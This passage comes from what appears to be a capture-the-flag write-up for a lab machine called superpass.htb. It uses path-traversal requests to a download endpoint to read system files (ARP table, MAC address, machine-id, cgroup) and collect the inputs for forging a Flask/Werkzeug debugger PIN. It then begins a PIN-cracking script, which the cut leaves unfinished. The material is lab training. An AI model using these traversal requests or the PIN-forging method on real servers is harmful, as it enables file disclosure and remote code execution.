 user : www-data

2. **MAC address**

We can get this  :

http://superpass.htb/download?fn=../proc/net/arp

```text
IP address       HW type     Flags       HW address            Mask     Device
10.10.10.2       0x1         0x2         00:50:56:b9:ee:c2     *        eth0
```

the network interface is eth0.

http://superpass.htb/download?fn=../sys/class/net/eth0/address

```text
00:50:56:b9:e8:42
```

```
>>> print(0x005056b9e842)
345052407874
```

3. **machine-id**

get it with: 

http://superpass.htb/download?fn=../etc/machine-id

```text
ed5b159560f54721827644bc9b220d00
```

4. **cgroup**

http://superpass.htb/download?fn=../proc/self/cgroup

```text
0::/system.slice/superpass.service
```

`superpass.service`

5. **path to the Flask `app.py`**

From the previous exception, we get it : `/app/venv/lib/python3.10/site-packages/flask/app.py`

6. **module name & application name**

From the article, we can deduce the mudule name (flask.app) and application name (wsgi_app)

**Final PIN script**

```python
import hashlib
import itertools
from itertools import chain

def crack_md5(username, modname, appname, flaskapp_path, node_uuid, machine_id):
    h = hashlib.md5()
    crack(h, username, modname, appname, flaskapp_path, node_uuid, machine_id)

def crack_sha1(username, modname, appname, flaskapp_path, node_uuid, machine_id):
    h = hashlib.sha1()
    crack(h, username, modname, appname, flaskapp_path, node_uuid, machine_id)

def crack(hasher, username, modname, appname, flaskapp_path, node_uuid, machine_id):
    probably_public_bits = [
            username,
            modname,
            appname,
            flaskapp_path ]
    private_bits = [
```